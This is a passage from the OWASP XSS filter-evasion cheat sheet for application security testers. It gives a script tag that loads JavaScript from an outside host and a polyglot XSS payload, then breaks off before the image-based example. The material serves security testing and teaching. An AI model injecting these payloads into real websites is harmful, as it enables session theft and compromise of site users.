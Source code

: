 ```yaml
---
description: XSS CheatSheet - In this CheatSheet, you will find a series of practical example commands for running XSS and getting the most of this.
---
```


# XSS CheatSheet

## Introduction

This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS CheatSheet, which was at: `http://ha.ckers.org/xss.html`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention CheatSheet, the [Cross Site Scripting Prevention CheatSheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html), was inspired by RSnake's XSS CheatSheet, so we can thank RSnake for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack CheatSheet, and so the [OWASP CheatSheet Series](https://owasp.org/www-project-cheat-sheets/) was born.

This CheatSheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate.

## Basic XSS Test Without Filter Evasion

This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):

```html
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

## XSS Locator (Polygot)

The following is a "polygot test XSS payload." This test will execute in multiple contexts including html, script string, js and url. Thank you to [Gareth Heyes](https://twitter.com/garethheyes) for this [contribution](https://twitter.com/garethheyes/status/997466212190781445).

```html
`javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

## Image XSS Using the JavaScript Directive

Image XSS using the JavaScript directive (IE7.0 doesn't support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:

